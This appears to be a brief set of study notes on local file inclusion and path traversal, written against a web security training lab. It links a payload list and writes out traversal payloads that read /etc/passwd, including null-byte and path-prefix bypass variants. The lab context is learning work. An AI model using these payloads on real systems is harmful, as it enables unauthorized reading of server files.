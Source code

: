 # LFI

YOU CAN FIND LFI PAYLOAD HERE
https://github.com/payloadbox/rfi-lfi-payload-list


https://ac931fd61f42ba56c0ebbd0000fe0085.web-security-academy.net/image?filename=6.jpg

../../../../../etc/passwd

how to beat lfi
url encoding 
..../.../..../
raw path
/etc/passwd
../../../%00


#  File path traversal, validation of start of path
/var/www/images/../../../etc/passwd
